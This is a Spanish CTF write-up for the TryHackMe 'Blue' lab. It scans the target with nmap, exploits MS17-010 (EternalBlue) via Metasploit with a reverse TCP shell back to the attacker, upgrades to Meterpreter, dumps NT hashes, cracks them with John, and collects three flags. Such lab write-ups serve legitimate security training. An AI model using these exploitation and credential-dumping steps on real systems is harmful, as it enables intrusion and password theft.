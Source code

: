 # Blue

## NMAP
Lo primero de todo será realizar un escaneo con NMAP a la IP de la máquina en búsqueda de puertos abiertos:

- **`-A`** -> Habilita escaneo agresivo (detección de SO, versiones, scripts y traceroute).  
- **`-T4`** -> Aumenta la velocidad del escaneo (rápido pero puede generar más detección).  

![nmap-1](./img/1.png)

Gracias a este escaneo podemos ver los puertos abiertos, habiendo 3 por debajo de 1000.

---

Buscamos una vulnerabilidad concreta para el **puerto 445**. Este puerto es utilizado por el protocolo **SMB**.
![nmap-2](./img/2.png)

A través de este comando se confirma que la máquina es vulnerable a **MS17-010**.

<br>

---

## Metasploit
Para la explotación de esta máquina usaremos **Metasploit**.

- **Primer paso:**
Abrimos la consola de Metasploit usando el comando:
	```
	sudo msfconsole
	```

- **Segundo paso:**
Haremos una búsqueda para tratar de encontrar un exploit para **MS17-010**:
	```bash
	search MS17-010
	```

	![exploit-1](./img/3.png)

- **Tercer paso:**
Encontramos un posible exploit, lo seleccionamos con el comando:
	```bash
	use 0
	```

	Miramos las opciones que vienen definidas con:
	```bash
	show options
	```
	
	![options-exploit](./img/4.png)

	Configuramos las IPs y mostramos las opciones de nuevo para ver que se han aplicado los cambios:
	```bash
	set rhosts IP_TryHackMe
	set lhost IP_VPN
	set payload windows/x64/shell/reverse_tcp
	show options
	```
	![options-exploit-2](./img/5.png)
	Podemos comprobar que se han realizado los cambios correctamente.

---

- **Cuarto paso:**
Ejecutamos el ataque con el comando:
	```bash
	run
	```
	![shell-1](./img/6.png)

	Pulsamos Ctrl + Z para salir de la shell pero sin cerrarla.

	Con el comando:
	```bash
	sessions
	```
	Veremos la sesión iniciada:

	![sessions](./img/7.png)

	Es importante saber la sesión ya que la necesitaremos más adelante.

---

<br>

## Migración a Meterpreter
Para ello buscaremos un módulo de migración a Meterpreter con el comando:
```bash
search shell_to_meterpreter
```
![meterpreter-2](./img/8.png)

Lo seleccionamos y mostramos las opciones para luego realizar su configuración:
```bash
use 0
show options
```
![meterpreter-3](./img/9.png)


Hacemos la configuración:
```bash
set lhost IP_VPN
set session Nº SESIÓN ANTERIOR
```

Una vez hecha la configuración, la ejecutamos con el comando:
```bash
run
```
<br>

Miramos con el comando ```sessions ``` y encontramos la shell:
![sessions-2](./img/10.png)

La iniciamos y con el comando `whoami` comprobamo el usuario de la shell iniciada:

![shell-meterpreter](./img/11.png)


## Hashes y contraseñas
Para extraer los Hashes, salimos de la shell de Windows y en meterpreter usamos el comando:
```bash
hashdump
```

![hashes](./img/12.png)

Nos vamos a quedar con el hash del usuario Jon. Para ello lo copiamos y lo guardamos en un fichero llamado **hash.txt**:

Intentamos descifrar la contraseña con el comando:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt Escritorio/hash.txt
```
![jon](./img/13.png)


<br>

---

## FLAGS
TryHackMe nos indica que existen tres flags.

### Primera Flag:
TryHackMe nos indica que se encuentra en la raíz del sistema. Para ello volvemos a acceder a la shell de la máquina Windows.

Una vez dentro navegaremos a la raíz y encontramos la primera flag:

![flag-1](./img/14.png)

---

### Segunda Flag:
Para encontrar esta flag navegaremos al directorio `C:\Windows\System32\Config` donde encontraremos la segunda flag:

![flag-2](./img/15.png)

---

### Tercera Flag:
Esta flag la podremos encontrar en el directorio `C:\Users\Jon\Documents`:

![flag-3](./img/16.png)


---

### ¡Máquina completada con éxito! 🎉